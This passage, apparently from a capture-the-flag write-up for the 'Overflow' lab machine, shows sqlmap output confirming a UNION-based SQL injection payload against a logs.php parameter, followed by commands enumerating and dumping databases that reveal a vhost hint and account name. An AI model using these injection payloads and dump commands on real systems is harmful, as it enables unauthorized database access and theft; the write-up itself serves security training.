 ```

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: http://overflow.htb:80/home/logs.php?name=') UNION ALL SELECT NULL,NULL,CONCAT(0x71766a7671,0x524363496a5379716c4e5764595076635657616a4f6c6f7348714279794d6c77654c774d4c536e4e,0x7171627171)-- -
---
[00:11:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
...[snip]...
```

Enumerating the databases with the `--dbs` flag there are three non default ones.

```
$ sqlmap -r logs.req --dbs
...[snip]...
available databases [4]:
[*] cmsmsdb
[*] information_schema
[*] logs
[*] Overflow

...[snip]...
```

Dumping everything from the `cmsmsdb` we see an interesting message mentioning another vhost on the machine.

```
$ sqlmap -r logs.req -D cmsmsdb --dump
...[snip]...
Database: cmsmsdb
Table: cms_userplugins
[1 entry]
+---------------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------+
| userplugin_id | code                                                                                                                                              | create_date         | description                                                                                          | modified_date       | userplugin_name 									  |
+---------------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------+
| 3             | echo "Make sure you check out devbuild-job.overflow.htb and report any UI related problems to devloper, use the editor account to authenticate."; | 2021-05-25 06:36:09 | Make sure you check out devbuild-job.overflow.htb and report any UI related problems to devloper, use the editor account to authenticate. | 2021-09-29 22:07:30 | Important       |
+---------------+---------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------------+
...[snip]...

```
